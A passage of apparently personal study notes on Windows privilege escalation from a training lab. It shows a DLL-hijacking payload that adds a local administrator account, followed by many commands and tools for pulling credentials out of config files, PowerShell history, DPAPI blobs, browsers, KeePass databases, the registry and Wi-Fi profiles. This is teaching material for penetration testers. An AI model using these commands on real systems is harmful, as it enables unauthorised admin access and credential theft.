17:55:39,7848570	main.exe	37940	CreateFile	C:\Users\PandaSt0rm\Desktop\Hijack\x.dll	NAME NOT FOUND	Desired Access: Read Attributes, Disposition: Open, Options: Open Reparse Point, Attributes: n/a, ShareMode: Read, Write, Delete, AllocationSize: n/a
```

Where it is looking to load x.dll from the app directory. You can take advantage of this and load your own code, with very little context of what it is looking for in x.dll.

```cpp
#include <stdio.h>
#include <Windows.h>

BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    {
        printf("Hijacked... Oops...\n");
    }
    break;
    case DLL_PROCESS_DETACH:
        break;
    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;
    }
    return TRUE;
}
```

This code defines a DLL entry point function called DllMain that is automatically called by Windows when the DLL is loaded into a process. When the library is loaded, it will simply print "Hijacked... Oops..." to the terminal, but you could theoretically do anything here.

To create a user and add the user to the administrators' group:

```cpp
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave3 password123! /add");
  	    i = system ("net localgroup administrators dave3 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}

# command for cross-compiling: x86_64-w64-mingw32-gcc TextShaping.cpp --shared -o TextShaping.dll
```

Either compile it or use the precompiled version provided. Rename hijack.dll to x.dll, and run main.exe.



> [!TIP]
> If you have privileges to _create_ files in the application's directory, you may also be able to hijack a valid DLL used by the executable. To test for privileges you can use:
> 
> `PS C:\Users\steve> echo "test" > 'C:\FileZilla\FileZilla FTP Client\test.txt'`
> 
> `PS C:\Users\steve> type 'C:\FileZilla\FileZilla FTP Client\test.txt'`
> `test`
> 
> After confirming write access, you can cross-compile a malicious DLL, move the original DLL to a backup location, place the malicious DLL into the application's directory, and rename it to match the original DLL name. When the application or service starts, it may load the malicious DLL according to the Windows DLL search order.

## Credential Theft

### Credential Hunting

#### Application Configuration Files

Against best practices, applications often store passwords in cleartext config files. Suppose you gain command execution in the context of an unprivileged user account. In that case, you may be able to find credentials for their admin account or another privileged local or domain account. You can use the findstr utility to search for this sensitive information.

```powershell
PS C:\htb> findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml
```

Sensitive IIS information such as credentials may be stored in a `web.config` file. For the default IIS website, this could be located at `C:\ inetpub\wwwroot\web.config`, but there may be multiple versions of this file in different locations, which you can search for recursively.

#### Dictionary Files

Another interesting case is dictionary files. For example, sensitive information such as passwords may be entered in an email client or browser-based application, which underlines any words it doesn't recognize. The user may add these words to their dictionary to avoid the distracting red underline.

```powershell
PS C:\htb> gc 'C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' | Select-String password

Password1234!
```

#### Unattended Installation Files

... may define auto-logon settings or additional accounts to be created as part of the installation. Passwords in the `unattend.xml` are stored in plaintext or base64 encoded.

```xml
<?xml version="1.0" encoding="utf-8"?>
<unattend xmlns="urn:schemas-microsoft-com:unattend">
    <settings pass="specialize">
        <component name="Microsoft-Windows-Shell-Setup" processorArchitecture="amd64" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" xmlns:wcm="http://schemas.microsoft.com/WMIConfig/2002/State" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
            <AutoLogon>
                <Password>
                    <Value>local_4dmin_p@ss</Value>
                    <PlainText>true</PlainText>
                </Password>
                <Enabled>true</Enabled>
                <LogonCount>2</LogonCount>
                <Username>Administrator</Username>
            </AutoLogon>
            <ComputerName>*</ComputerName>
        </component>
    </settings>
```

Although these files should be automatically deleted as part of the installation, sysadmins may have created copies of the file in other folders during the development of the image and answer file.

#### PowerShell History File

Starting with PowerShell 5.0 in Windows 10, PowerShell stores command history to the file `C:\Users\<username>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`.

> [!INFO]
> You _could_ use the `Get-History` cmdlet to obtain a list of commands executed in the past.
> 
> The output might show no output. This could be the result of administrators regularly clearing the PowerShell history using `Clear-History`. Interestingly, `Clear-History` does not clear the command history recorded by PSReadline.
> 
> One thing administrators could to in order to prevent PSReadline from recording commands is by setting the `-HistorySaveStyle` option to `SaveNothing` with the `Set-PSReadlineOption` cmdlet. Alternatively, they can just manually clear the history file.

As seen in the Windows Commands PDF, published by Microsoft [here](https://download.microsoft.com/download/5/8/9/58911986-D4AD-4695-BF63-F734CD4DF8F2/ws-commands.pdf), there are many commands which can pass credentials on the command line. You can see in the example below that the user-specified local administrative credentials to query the Application Event Log using [wevutil](https://ss64.com/nt/wevtutil.html).

```powershell
PS C:\htb> (Get-PSReadLineOption).HistorySavePath

C:\Users\htb-student\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

Once you know the file's location, you can attempt to read its contents using `gc`.

```powershell
PS C:\htb> gc (Get-PSReadLineOption).HistorySavePath

dir
cd Temp
md backups
cp c:\inetpub\wwwroot\* .\backups\
Set-ExecutionPolicy Bypass -Scope Process -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('https://www.powershellgallery.com/packages/MrAToolbox/1.0.1/Content/Get-IISSite.ps1'))
. .\Get-IISsite.ps1
Get-IISsite -Server WEB02 -web "Default Web Site"
wevtutil qe Application "/q:*[Application [(EventID=3005)]]" /f:text /rd:true /u:WEB02\administrator /p:5erv3rAdmin! /r:WEB02
```

You can also use this one-liner to retrieve the contents of all PowerShell history files that you can access as you current user. This can also be extremely helpful as a post-exploitation step. You should always recheck these files once you have local admin if your prior access did not allow you to read the files for some users. This command assumes that the default save path is being used.

```powershell
PS C:\htb> foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}

dir
cd Temp
md backups
cp c:\inetpub\wwwroot\* .\backups\
Set-ExecutionPolicy Bypass -Scope Process -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('https://www.powershellgallery.com/packages/MrAToolbox/1.0.1/Content/Get-IISSite.ps1'))
. .\Get-IISsite.ps1
Get-IISsite -Server WEB02 -web "Default Web Site"
wevtutil qe Application "/q:*[Application [(EventID=3005)]]" /f:text /rd:true /u:WEB02\administrator /p:5erv3rAdmin! /r:WEB02
```

#### PowerShell Credentials

PowerShell credentials are often used for scripting and automation tasks as a way to store encrypted credentials conveniently. The credentials are protected using DPAPI, which typically means they can only be decrypted by the same user on the same computer they were created on.

Take, for example, the following script `Connect-VC.ps1`, which a sysadmin has created to connect to a vCenter server easily.

```powershell
# Connect-VC.ps1
# Get-Credential | Export-Clixml -Path 'C:\scripts\pass.xml'
$encryptedPassword = Import-Clixml -Path 'C:\scripts\pass.xml'
$decryptedPassword = $encryptedPassword.GetNetworkCredential().Password
Connect-VIServer -Server 'VC-01' -User 'bob_adm' -Password $decryptedPassword
```

If you have gained command execution in the context of this user or can abuse DPAPI, then you can recover the cleartext credentials from `encrypted.xml`. The example below assumes the former.

```powershell
PS C:\htb> $credential = Import-Clixml -Path 'C:\scripts\pass.xml'
PS C:\htb> $credential.GetNetworkCredential().username

bob


PS C:\htb> $credential.GetNetworkCredential().password

Str0ng3ncryptedP@ss!
```

### Other Files

There are many other types of files you may find on a local system or on network share drives that may contain credentials or additional information that can be used to escalate privileges. In an AD environment, you can use a tool such as [Snaffler](https://github.com/SnaffCon/Snaffler) to crawl network share drives for interesting file extensions such as `.kdbx`, `.vmdk`, `.vdhx`, `.ppk`, etc. You may find a virtual hard drive that you can mount and extract local administrator password hashes from, an SSH private key that can be used to access other systems, or instances of users storing passwords in Excel/Word Documents, OneNote workbooks, or even the classic passwords.txt file.

#### Manually Searching the File System for Credentials

You can search the file system or share drive(s) manually using the following commands from [this cheatsheet](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/).

```
C:\htb> cd c:\Users\htb-student\Documents & findstr /SI /M "password" *.xml *.ini *.txt

stuff.txt
```

```
C:\htb> findstr /si password *.xml *.ini *.txt *.config

stuff.txt:password: l#-x9r11_2_GL!
```

```
C:\htb> findstr /spin "password" *.*

stuff.txt:1:password: l#-x9r11_2_GL!
```

You can also search using PowerShell in a variety of ways. Here is one example:

```powershell
PS C:\htb> select-string -Path C:\Users\htb-student\Documents\*.txt -Pattern password

stuff.txt:1:password: l#-x9r11_2_GL!
```

Searching for file extensions:

```
C:\htb> dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*

c:\inetpub\wwwroot\web.config
```

```
C:\htb> where /R C:\ *.config

c:\inetpub\wwwroot\web.config
```

Similarly, you can search the file system for certain file extensions with a command such as:

```powershell
PS C:\htb> Get-ChildItem C:\ -Recurse -Include *.rdp, *.config, *.vnc, *.cred -ErrorAction Ignore


    Directory: C:\inetpub\wwwroot


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         5/25/2021   9:59 AM            329 web.config

<SNIP>

[OR]

PS C:\Users\dave> Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
...
Directory: C:\xampp\mysql\bin

Mode                 LastWriteTime         Length Name                                               
----                 -------------         ------ ----                                               
-a----         6/16/2022   1:42 PM           5786 my.ini
...
Directory: C:\xampp

Mode                 LastWriteTime         Length Name                                              
----                 -------------         ------ ----                                                                 
-a----         3/13/2017   4:04 AM            824 passwords.txt
-a----         6/16/2022  10:22 AM            792 properties.ini     
-a----         5/16/2022  12:21 AM           7498 readme_de.txt 
-a----         5/16/2022  12:21 AM           7368 readme_en.txt     
-a----         6/16/2022   1:17 PM           1200 xampp-control.ini

[OR]

PS C:\Users\dave> Get-ChildItem -Path C:\Users\dave\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\Users\dave\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue

    Directory: C:\Users\dave\Desktop


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-a----         6/16/2022  11:28 AM            339 asdf.txt 
```

#### Sticky Notes Passwords

People often use the StickyNotes app on Windows workstations to save passwords and other information, not realizing it is a database file. This file is located at `C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite` and is always worth searching for and examining.

```powershell
PS C:\htb> ls
 
 
    Directory: C:\Users\htb-student\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState
 
 
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         5/25/2021  11:59 AM          20480 15cbbc93e90a4d56bf8d9a29305b8981.storage.session
-a----         5/25/2021  11:59 AM            982 Ecs.dat
-a----         5/25/2021  11:59 AM           4096 plum.sqlite
-a----         5/25/2021  11:59 AM          32768 plum.sqlite-shm
-a----         5/25/2021  12:00 PM         197792 plum.sqlite-wal
```

You can copy the three `plum.sqlite*` files down to your system and open them with a tool such as DB Browser for SQLite and view the "Text" column in the "Note" table with the query `select Text from Note;`.

This can also be done with PowerShell using the [PSSQLite module](https://github.com/RamblingCookieMonster/PSSQLite). First, import the module, point to a data source, and finally query the "Note" table and look for any interesting data. This can also be done from your attack machine after downloading the `.sqlite` file or remotely via WinRM.

```powershell
PS C:\htb> Set-ExecutionPolicy Bypass -Scope Process

Execution Policy Change
The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose
you to the security risks described in the about_Execution_Policies help topic at
https:/go.microsoft.com/fwlink/?LinkID=135170. Do you want to change the execution policy?
[Y] Yes  [A] Yes to All  [N] No  [L] No to All  [S] Suspend  [?] Help (default is "N"): A

PS C:\htb> cd .\PSSQLite\
PS C:\htb> Import-Module .\PSSQLite.psd1
PS C:\htb> $db = 'C:\Users\htb-student\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite'
PS C:\htb> Invoke-SqliteQuery -Database $db -Query "SELECT Text FROM Note" | ft -wrap
 
Text
----
\id=de368df0-6939-4579-8d38-0fda521c9bc4 vCenter
\id=e4adae4c-a40b-48b4-93a5-900247852f96
\id=1a44a631-6fff-4961-a4df-27898e9e1e65 root:Vc3nt3R_adm1n!
\id=c450fc5f-dc51-4412-b4ac-321fd41c522a Thycotic demo tomorrow at 10am
```

You can also copy them over to your attack box and search through the data using the `strings` command, which may be less efficient depending on the size of the database.

```bash
d41y@htb[/htb]$  strings plum.sqlite-wal

CREATE TABLE "Note" (
"Text" varchar ,
"WindowPosition" varchar ,
"IsOpen" integer ,
"IsAlwaysOnTop" integer ,
"CreationNoteIdAnchor" varchar ,
"Theme" varchar ,
"IsFutureNote" integer ,
"RemoteId" varchar ,
"ChangeKey" varchar ,
"LastServerVersion" varchar ,
"RemoteSchemaVersion" integer ,
"IsRemoteDataInvalid" integer ,
"PendingInsightsScan" integer ,
"Type" varchar ,
"Id" varchar primary key not null ,
"ParentId" varchar ,
"CreatedAt" bigint ,
"DeletedAt" bigint ,
"UpdatedAt" bigint )'
indexsqlite_autoindex_Note_1Note
af907b1b-1eef-4d29-b238-3ea74f7ffe5caf907b1b-1eef-4d29-b238-3ea74f7ffe5c
U	af907b1b-1eef-4d29-b238-3ea74f7ffe5c
Yellow93b49900-6530-42e0-b35c-2663989ae4b3af907b1b-1eef-4d29-b238-3ea74f7ffe5c
U	93b49900-6530-42e0-b35c-2663989ae4b3


< SNIP >

\id=011f29a4-e37f-451d-967e-c42b818473c2 vCenter
\id=34910533-ddcf-4ac4-b8ed-3d1f10be9e61 alright*
\id=ffaea2ff-b4fc-4a14-a431-998dc833208c root:Vc3nt3R_adm1n!ManagedPosition=Yellow93b49900-6530-42e0-b35c-2663989ae4b3af907b1b-1eef-4d29-b238-3ea74f7ffe5c

<SNIP >
```

#### Other Files of Interest

Some other files you may find credentials in include the following:

```
%SYSTEMDRIVE%\pagefile.sys
%WINDIR%\debug\NetSetup.log
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, %WINDIR%\repair\security
%WINDIR%\iis6.log
%WINDIR%\system32\config\AppEvent.Evt
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
%WINDIR%\system32\CCM\logs\*.log
%USERPROFILE%\ntuser.dat
%USERPROFILE%\LocalS~1\Tempor~1\Content.IE5\index.dat
%WINDIR%\System32\drivers\etc\hosts
C:\ProgramData\Configs\*
C:\Program Files\Windows PowerShell\*
```

Some of the privilege escalation enumeration scripts listed ealier in this module search for most, if not all, of the files/extensions mentioned in this section. Nevertheless, you must understand how to search for these manually and not only rely on tools. Furthermore, you may find interesting files that enumeration scripts do not look for and wish to modify the scripts to include them.

### Further Credential Theft

#### Cmdkey Saved Credentials

The `cmdkey` command can be used to create, list, and delete stored usernames and passwords. Users may wish to store credentials for a specific host or use it to store credentials for terminal services connections to connect to a remote host using RDP without needing to enter a password. This may help you either move laterally to another system with a different user or escalate privileges on the current host to leverage stored credentials for another user.

```
C:\htb> cmdkey /list

    Target: LegacyGeneric:target=TERMSRV/SQL01
    Type: Generic
    User: inlanefreight\bob
```

When you attempt to RDP to the host, the saved credentials will be used.

You can also attempt to reuse the credentials using `runas` to send yourself a revshell as that user, run a binary, or launch a PowerShell or CMD console with a command such as:

```powershell
PS C:\htb> runas /savecred /user:inlanefreight\bob "COMMAND HERE"
```

#### Browser Credentials

Users often store credentials in their browsers for applications that they frequently visit. You can use a tool such as [SharpChrome](https://github.com/GhostPack/SharpDPAPI) to retrieve cookies and saved logins from Google Chrome.

```powershell
PS C:\htb> .\SharpChrome.exe logins /unprotect

  __                 _
 (_  |_   _. ._ ._  /  |_  ._ _  ._ _   _
 __) | | (_| |  |_) \_ | | | (_) | | | (/_
                |
  v1.7.0


[*] Action: Chrome Saved Logins Triage

[*] Triaging Chrome Logins for current user


[*] AES state key file : C:\Users\bob\AppData\Local\Google\Chrome\User Data\Local State
[*] AES state key      : 5A2BF178278C85E70F63C4CC6593C24D61C9E2D38683146F6201B32D5B767CA0


--- Chrome Credential (Path: C:\Users\bob\AppData\Local\Google\Chrome\User Data\Default\Login Data) ---

file_path,signon_realm,origin_url,date_created,times_used,username,password
C:\Users\bob\AppData\Local\Google\Chrome\User Data\Default\Login Data,https://vc01.inlanefreight.local/,https://vc01.inlanefreight.local/ui,4/12/2021 5:16:52 PM,13262735812597100,bob@inlanefreight.local,Welcome1
```

> [!CAUTION]
> Credential collection from Chromium-based browsers typically generates additional events that could be logged and identified by the blue team such as 4688 and 16385; defenders may also consider filesystem/object access events such as 4662 and 4663 to improve detection fidelity.

#### Password Managers

Many companies provide password managers to their users. This may be in the form of a desktop application such as KeePass, a cloud-based solution such as 1Password, or an enterprise password vault such as Thycotic or CyberArk. Gaining Access to a password manager, especially one utilized by a member of the IT staff or an entire department, may lead to administrator-level access to high-value targets such as network devices, servers, databases, etc. You may gain access to a password vault through password reuse or guessing a weak/common password. Some password managers such as KeePass are stored locally on the host. If you find a `.kdbx` file on a server, workstation, or file share, you know you are dealing with a KeePass database which is often protectedd by just a master password. If you can download a `.kdbx` file to your attacking host, you can use a tool such as [keepass2john](https://gist.githubusercontent.com/HarmJ0y/116fa1b559372804877e604d7d367bbc/raw/c0c6f45ad89310e61ec0363a69913e966fe17633/keepass2john.py) to extract the password hash and run it through a password cracking tool such as Hashcat or JohnTheRipper.

First, you extract the hash in Hashcat format using the keepass2john.py script.

```
d41y@htb[/htb]$ python2.7 keepass2john.py ILFREIGHT_Help_Desk.kdbx 

ILFREIGHT_Help_Desk:$keepass$*2*60000*222*f49632ef7dae20e5a670bdec2365d5820ca1718877889f44e2c4c202c62f5fd5*2e8b53e1b11a2af306eb8ac424110c63029e03745d3465cf2e03086bc6f483d0*7df525a2b843990840b249324d55b6ce*75e830162befb17324d6be83853dbeb309ee38475e9fb42c1f809176e9bdf8b8*63fdb1c4fb1dac9cb404bd15b0259c19ec71a8b32f91b2aaaaf032740a39c154
```

You can then feed the hash to Hashcat, specifying hash mode 13400 for KeePass. If successful, you may gain access to a wealth of credentials that can be used to access other applications/systems or even network devices, servers, databases, etc., if you can gain access to a password database used by IT staff.

```bash
d41y@htb[/htb]$ hashcat -m 13400 keepass_hash /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt

hashcat (v6.1.1) starting...

<SNIP>

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$keepass$*2*60000*222*f49632ef7dae20e5a670bdec2365d5820ca1718877889f44e2c4c202c62f5fd5*2e8b53e1b11a2af306eb8ac424110c63029e03745d3465cf2e03086bc6f483d0*7df525a2b843990840b249324d55b6ce*75e830162befb17324d6be83853dbeb309ee38475e9fb42c1f809176e9bdf8b8*63fdb1c4fb1dac9cb404bd15b0259c19ec71a8b32f91b2aaaaf032740a39c154:panther1
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: KeePass 1 (AES/Twofish) and KeePass 2 (AES)
Hash.Target......: $keepass$*2*60000*222*f49632ef7dae20e5a670bdec2365d...39c154
Time.Started.....: Fri Aug  6 11:17:47 2021 (22 secs)
Time.Estimated...: Fri Aug  6 11:18:09 2021 (0 secs)
Guess.Base.......: File (/opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      276 H/s (4.79ms) @ Accel:1024 Loops:16 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 6144/14344385 (0.04%)
Rejected.........: 0/6144 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:59984-60000
Candidates.#1....: 123456 -> iheartyou

Started: Fri Aug  6 11:17:45 2021
Stopped: Fri Aug  6 11:18:11 2021
```

#### Email

If you gain access to a domain-joined system in the context of a domain user with a Microsoft Exchange inbox, you can attempt to search the user's email for terms such as "pass", "creds", "credentials", etc. using the tool [MailSniper](https://github.com/dafthack/MailSniper).

#### More Fun with Credentials

When all else fails, you can run the LaZagne tool in an attempt to retrieve credentials from a wide variety of software. Such software includes web browsers, chat clients, databases, email, memory dumps, various sysadmin tools, and internal password storage mechanisms. The tool can be used to run all modules, specific modules, or against a particular piece of software. The output can be saved to a standard text file or in JSON format.

You can view the help menu with the `-h` flag.

```powershell
PS C:\htb> .\lazagne.exe -h

usage: lazagne.exe [-h] [-version]
                   {chats,mails,all,git,svn,windows,wifi,maven,sysadmin,browsers,games,multimedia,memory,databases,php}
                   ...
				   
|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

positional arguments:
  {chats,mails,all,git,svn,windows,wifi,maven,sysadmin,browsers,games,multimedia,memory,databases,php}
                        Choose a main command
    chats               Run chats module
    mails               Run mails module
    all                 Run all modules
    git                 Run git module
    svn                 Run svn module
    windows             Run windows module
    wifi                Run wifi module
    maven               Run maven module
    sysadmin            Run sysadmin module
    browsers            Run browsers module
    games               Run games module
    multimedia          Run multimedia module
    memory              Run memory module
    databases           Run databases module
    php                 Run php module

optional arguments:
  -h, --help            show this help message and exit
  -version              laZagne version
```

As you cann see, there are many modules available to you. Running the tool with `all` will search for supported applications and return any discovered cleartext credentials. As you can see from the example below, many applications do not store credentials securely. They can easily be retrieved and used to escalate privileges locally, move on to another system, or access sensitive data.

```powershell
PS C:\htb> .\lazagne.exe all

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

########## User: jordan ##########

------------------- Winscp passwords -----------------

[+] Password found !!!
URL: transfer.inlanefreight.local
Login: root
Password: Summer2020!
Port: 22

------------------- Credman passwords -----------------

[+] Password found !!!
URL: dev01.dev.inlanefreight.local
Login: jordan_adm
Password: ! Q A Z z a q 1

[+] 2 passwords have been found.

For more information launch it again with the -v option

elapsed time = 5.50499987602
```

#### Even More Fun with Credentials

You can use [SessionGopher](https://github.com/Arvanaghi/SessionGopher) to extract PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP credentials. The tool is written in PowerShell and searches for and decrypts saved login information for remote access tools. It can be run locally or remotely. It searches the `HKEY_USERS` hive for all users who have logged into a domain-joined host and searches for and decrypts any saved session information it can find. It can also be run to search drives for PuTTY private key file (_.ppk_), Remote Desktop (_.rdp_), and RSA (_.sdtid_) files.

You need local admin access to retrieve stored session information for every user in HKEY_USERS, but it is always worth running as your current user to see if you can find any useful credentials.

```powershell
PS C:\htb> Import-Module .\SessionGopher.ps1
 
PS C:\Tools> Invoke-SessionGopher -Target WINLPE-SRV01
 
          o_
         /  ".   SessionGopher
       ,"  _-"
     ,"   m m
  ..+     )      Brandon Arvanaghi
     `m..m       Twitter: @arvanaghi | arvanaghi.com
 
[+] Digging on WINLPE-SRV01...
WinSCP Sessions
 
 
Source   : WINLPE-SRV01\htb-student
Session  : Default%20Settings
Hostname :
Username :
Password :
 
 
PuTTY Sessions
 
 
Source   : WINLPE-SRV01\htb-student
Session  : nix03
Hostname : nix03.inlanefreight.local
 

 
SuperPuTTY Sessions
 
 
Source        : WINLPE-SRV01\htb-student
SessionId     : NIX03
SessionName   : NIX03
Host          : nix03.inlanefreight.local
Username      : srvadmin
ExtraArgs     :
Port          : 22
Putty Session : Default Settings
```

#### Clear-Text Password Storage in the Registry

Certain programs and windows configurations can result in clear-text passwords or other data being stored in the registry.

##### Windows AutoLogon

Windows [Autologon](https://learn.microsoft.com/en-us/troubleshoot/windows-server/user-profiles-and-logon/turn-on-automatic-logon) is a feature that allows users to configure their Windows OS to automatically log on to a specific user account, without requiring manual input of the username and password at each startup. However, once this is configured, the username and password are stored in the registry, in clear-text. This feature is commonly used on single-user systems or in situations where convenience outweighs the need for enhanced security.

The registry keys associated with Autologon can be found under `HKEY_LOCAL_MACHINE` in the following hive, and can be accessed by standard users:

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
```

The typical configuration of an Autologon account involves the manual setting of the following registry keys:

- **AdminAutoLogon** - Determines whether Autologon is enabled or disabled. A value of "1" means it is enabled.
- **DefaultUserName** - Holds the value of the username of the account that will automatically log on.
- **DefaultPassword** - Holds the value of the password for the user account specified previously.

```
C:\htb>reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
    AutoRestartShell    REG_DWORD    0x1
    Background    REG_SZ    0 0 0
    
    <SNIP>
    
    AutoAdminLogon    REG_SZ    1
    DefaultUserName    REG_SZ    htb-student
    DefaultPassword    REG_SZ    HTB_@cademy_stdnt!
```

> [!TIP]
> If you absolutely must configure Autologon for your windows system, it is recommended to use Autologon.exe from the Sysinternals suite, which will encrypt the password as an LSA secret.

##### Putty
For Putty sessions utilizing a proxy connection, when the session is saved, the credentials are stored in the registry in clear text.

```
Computer\HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions\<SESSION NAME>
```

Note that the access controls for this specific registry key are tied to the user account that configured and saved the session. Therefore, in order to see it, you would need to be logged in as that user and search the `HKEY_CURRENT_USER` hive. Subsequently, if you had admin privileges, you would be able to find it under the corresponding user's hive in `HKEY_USERS`.

First, you need to enumerate the available saved sessions:

```powershell
PS C:\htb> reg query HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions

HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions\kali%20ssh
```

Next, you look at the keys and values of the discovered session "kali%20ssh":

```powershell
PS C:\htb> reg query HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions\kali%20ssh

HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions\kali%20ssh
    Present    REG_DWORD    0x1
    HostName    REG_SZ
    LogFileName    REG_SZ    putty.log
    
  <SNIP>
  
    ProxyDNS    REG_DWORD    0x1
    ProxyLocalhost    REG_DWORD    0x0
    ProxyMethod    REG_DWORD    0x5
    ProxyHost    REG_SZ    proxy
    ProxyPort    REG_DWORD    0x50
    ProxyUsername    REG_SZ    administrator
    ProxyPassword    REG_SZ    1_4m_th3_@cademy_4dm1n!  
```

In this example, you can imagine the scenario that the IT administrator has configured Putty for a user in their environment, but unfortunately used their admin credentials in the proxy connection. The password could be extracted and potentially reused across the network.

#### Wifi Passwords

If you obtain local admin access to a user's workstation with a wireless card, you can list out any wireless networks they have recently connected to.

```
C:\htb> netsh wlan show profile

Profiles on interface Wi-Fi:

Group policy profiles (read only)
---------------------------------
    <None>

User profiles
-------------
    All User Profile     : Smith Cabin
    All User Profile     : Bob's iPhone
    All User Profile     : EE_Guest
    All User Profile     : EE_Guest 2.4
    All User Profile     : ilfreight_corp
```

Depending on the network configuration, you can retrieve the pre-shared key and potentially access the target network. While rare, you may encounter this during an engagement and use this access to jump onto a separate wireless network and gain access to additional resources.

```
C:\htb> netsh wlan show profile ilfreight_corp key=clear

Profile ilfreight_corp on interface Wi-Fi:
=======================================================================

Applied: All User Profile

Profile information
-------------------
    Version                : 1
    Type                   : Wireless LAN
    Name                   : ilfreight_corp
    Control options        :
        Connection mode    : Connect automatically
        Network broadcast  : Connect only if this network is broadcasting
        AutoSwitch         : Do not switch to other networks
        MAC Randomization  : Disabled

Connectivity settings
---------------------
    Number of SSIDs        : 1
    SSID name              : "ilfreight_corp"
    Network type           : Infrastructure
    Radio type             : [ Any Radio Type ]
    Vendor extension          : Not present

Security settings
-----------------
    Authentication         : WPA2-Personal
    Cipher                 : CCMP
    Authentication         : WPA2-Personal
    Cipher                 : GCMP
    Security key           : Present
    Key Content            : ILFREIGHTWIFI-CORP123908!

Cost settings
-------------
    Cost                   : Unrestricted
    Congested              : No
    Approaching Data Limit : No
    Over Data Limit        : No
    Roaming                : No
    Cost Source            : Default
```

## Restricted Environments

### Citrix Breakout

Numerous organizations leverage virtualization such as Terminal Services, Citrix, AWS AppStream, CyberArk PSM and Kiosk to offer remote access solutions in order to meet their business requirements. However, in most organizations "lock-down" measures are implemented in their desktop environments to minimize the potential impact of malicious staff members and compromised accounts on overall domain security. While these desktop restrictions can impede threat actors, there remains, a possibility for them to "break-out" of the restricted environment.

Basic methodology for break-out:

1. Gain access to a Dialog box.
2. Exploit the Dialog box to achieve command execution.
3. Escalate privileges to gain higher levels of access.

